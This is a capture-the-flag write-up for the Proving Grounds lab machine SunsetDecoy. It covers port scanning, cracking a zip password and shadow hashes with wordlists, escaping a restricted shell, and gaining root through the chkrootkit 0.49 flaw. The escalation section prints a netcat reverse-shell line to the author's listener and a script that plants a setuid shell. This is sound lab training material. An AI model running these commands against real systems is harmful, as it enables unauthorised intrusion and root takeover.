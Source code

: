 ```yaml
---
title: "Proving grounds Play: SunsetDecoy"
layout: post
date: 2023-10-01 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9b53e3be374e4ffb6d59ff181e7a44f (RSA)
|   256 cef3b3e70e90e264ac8d870f1588aa5f (ECDSA)
|_  256 66a98091f3d84b0a69b000229f3c4c5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
|_
|_http-title: Index of /
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp - open  http - Apache httpd 2.4.38

![img](/assets/images/CTF/Proving_Grounds/SunsetDecoy/web.png)

Download the zip file http://192.168.240.85/save.zip.

Extract the zip file using `unzip`, unfortunately it is password protected.

## Crack the password

Crack the password of the zip file using `fcrackzip` tool.

```sh
naveenj@hackerspace:|22:50|~/pg-play/SunsetDecoy/files/fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt save.zip

PASSWORD FOUND!!!!: pw == manuel
```

Extract and list the extracted files.

```sh
-rw-r--r-- 1 naveenj naveenj 2018 Sep 30 22:52 crackme
-rw-r--r-- 1 naveenj naveenj  829 Jun 27  2020 group
-rw-r--r-- 1 naveenj naveenj   33 Jun 27  2020 hostname
-rw-r--r-- 1 naveenj naveenj  185 Jun 27  2020 hosts
-rw-r--r-- 1 naveenj naveenj 1807 Jun 27  2020 passwd
-rw-r----- 1 naveenj naveenj 1111 Jul  7  2020 shadow
-r--r----- 1 naveenj naveenj  669 Feb  2  2020 sudoers
```

Using `unshadow` to make it crackable for john.

```sh
naveenj@hackerspace:|22:52|~/pg-play/SunsetDecoy/files/etc$ unshadow passwd shadow > crackme
naveenj@hackerspace:|22:52|~/pg-play/SunsetDecoy/files/etc$ ls
crackme  group  hostname  hosts  passwd  shadow  sudoers
```

### Crack password using john

```sh
naveenj@hackerspace:|22:52|~/pg-play/SunsetDecoy/files/etc$ john crackme --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
server           (296640a3b825115a47b68fc44501c828) 
```

SSH to the attacking machine using cracked credentials. Use the command `-t "bash --noprofile"` to escape the restricted bash.

```sh
naveenj@hackerspace:|23:39|~/pg-play/SunsetDecoy/files/etc$ ssh 296640a3b825115a47b68fc44501c828@192.168.240.85 -t "bash --noprofile"
296640a3b825115a47b68fc44501c828@192.168.240.85's password: 
bash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
```

## Privilege Escalation

List the files in the attacking machine, the file `honeypot.decoy` is compiled and executable.

```sh
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ls -al
total 60
drwxr-xr-x 2 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828  4096 Sep 30 23:15 .
drwxr-xr-x 3 root                             root                              4096 Jun 27  2020 ..
lrwxrwxrwx 1 root                             root                                 9 Jul  7  2020 .bash_history -> /dev/null
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828   220 Jun 27  2020 .bash_logout
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828  3583 Jun 27  2020 .bashrc
-rwxr-xr-x 1 root                             root                             17480 Jul  7  2020 honeypot.decoy
-rw------- 1 root                             root                              1855 Jul  7  2020 honeypot.decoy.cpp
lrwxrwxrwx 1 root                             root                                 7 Jun 27  2020 id -> /bin/id
lrwxrwxrwx 1 root                             root                                13 Jun 27  2020 ifconfig -> /bin/ifconfig
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828    33 Sep 30 22:49 local.txt
lrwxrwxrwx 1 root                             root                                 7 Jun 27  2020 ls -> /bin/ls
lrwxrwxrwx 1 root                             root                                10 Jun 27  2020 mkdir -> /bin/mkdir
-rwxr-xr-x 1 root                             root                               807 Jun 27  2020 .profile
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828    66 Jun 27  2020 .selected_editor
-rwxrwxrwx 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828    32 Aug 27  2020 user.txt
-rw-r--r-- 1 296640a3b825115a47b68fc44501c828 296640a3b825115a47b68fc44501c828   165 Sep 30 23:17 .wget-hsts
```

Execute the file with the option 5.

```sh
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ./honeypot.decoy 
--------------------------------------------------

Welcome to the Honey Pot administration manager (HPAM). Please select an option.
1 Date.
2 Calendar.
3 Shutdown.
4 Reboot.
5 Launch an AV Scan.
6 Check /etc/passwd.
7 Leave a note.
8 Check all services status.

Option selected:5

The AV Scan will be launched in a minute or less.
--------------------------------------------------
```

The scan will be launched, and in order to know what is running we need to monitor the system process. Download [pspy](https://github.com/DominicBreuker/pspy) into the attacking machine and run it.

```sh
2023/09/30 23:46:05 CMD: UID=0     PID=16936  | /bin/sh /root/chkrootkit-0.49/chkrootkit 
2023/09/30 23:46:05 CMD: UID=0     PID=16935  | /bin/bash /root/script.sh 
2023/09/30 23:46:05 CMD: UID=0     PID=16933  | /bin/sh -c /bin/bash /root/script.sh
2023/09/30 23:46:11 CMD: UID=1000  PID=834    | ./honeypot.decoy 
2023/09/30 23:46:11 CMD: UID=1000  PID=835    | sh -c /usr/bin/touch /dev/shm/STTY5246 
2023/09/30 23:47:01 CMD: UID=0     PID=837    | /usr/sbin/CRON -f 
2023/09/30 23:47:01 CMD: UID=0     PID=838    | /usr/sbin/CRON -f 
2023/09/30 23:47:01 CMD: UID=0     PID=839    | /bin/sh -c /bin/bash /root/script.sh 
2023/09/30 23:47:01 CMD: UID=0     PID=840    | /bin/bash /root/script.sh 
2023/09/30 23:47:01 CMD: UID=0     PID=843    | /bin/sh /root/chkrootkit-0.49/chkrootkit  
```

The process `chkrootkit-0.49` has been running as root, there is a local privilege escalation exploit exists in the exploitDB [Chkrootkit 0.49 - Local Privilege Escalation](https://www.exploit-db.com/exploits/33899).

Create a reverse shell using netcat and save it as `update` in the `/tmp` directory and make it executable `chmod +x update`.

```sh
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ cat update
/usr/bin/nc 192.168.45.225 4444 -e /bin/sh
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ 
```

Once the chkrootkit runs the exploit file `update` we will get the root shell.

```sh
naveenj@hackerspace:|23:29|~/pg-play/SunsetDecoy$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.225] from (UNKNOWN) [192.168.240.85] 57632
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
```

**Root Obtained**

An alternative way to obtain root without using netcat is as follows:

Create a file named `update` in the `/tmp` directory and the contents should be as below.

```sh
#!/bin/bash

sudo cp /usr/bin/dash /tmp/dash; chmod u+s /tmp/dash;
```

Now run the `honeypot.decoy` binary and wait for few seconds.

List the file in the `/tmp` folder and list it's permissions.

```sh
drwxr-xr-x 18 root  root     4096 Jul 12  2020 ..
-rwsr-xr-x  1 root  root     121464 Sep 30 23:54 dash
```

Now run the binary `dash` as follows to obtain root.

```sh
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ ./dash -p
# whoami
root
# id
uid=1000(296640a3b825115a47b68fc44501c828) gid=1000(296640a3b825115a47b68fc44501c828) euid=0(root) groups=1000(296640a3b825115a47b68fc44501c828)
# 
```

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).